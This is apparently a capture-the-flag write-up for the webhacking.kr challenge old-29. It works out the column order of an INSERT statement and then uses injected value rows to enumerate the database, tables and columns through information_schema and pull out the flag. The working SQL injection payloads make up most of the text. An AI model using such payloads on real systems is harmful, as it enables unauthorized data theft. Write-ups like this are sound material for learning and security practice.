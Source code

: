 # Webhacking old-29 Solution

this is another sql injection challenge.
I think the sql query is like that: `INSERT INTO table Values (filename)`, so, we need to see what are the next columns, there are 2 options:
```
(filename, ip, time)
(filename, time, ip)
```

my-ip = `149.102.239.232`
let's try each of this methods, and see which one works.
1. `file', '149.102.239.232', 0)# `
2. `file', 0, '149.102.239.232')# `

the second method works!

![alt text](./images/old-29_1.png)

now, let's insert this payload, in order to find the database:
```
file', 0, '149.102.239.232'), ((select database()), 0, '149.102.239.232')# 
```
database: `chall29`

retrieve tables:
```
file', 0, '149.102.239.232'), ((select group_concat(table_name) from information_schema.tables where table_schema='chall29'), 0, '149.102.239.232')# 
```
tables: `files,flag_congratz`

retrieve columns:
```
file', 0, '149.102.239.232'), ((select group_concat(column_name) from information_schema.columns where table_name='flag_congratz'), 0, '149.102.239.232')# 
```
columns: `flag`

now, only need to achieve the flag:
```
file', 0, '149.102.239.232'), ((select flag from flag_congratz), 0, '149.102.239.232')# 
```
flag: `FLAG{didYouFeelConfused?_sorry:)}`


**Flag:** ***`FLAG{didYouFeelConfused?_sorry:)}`*** 



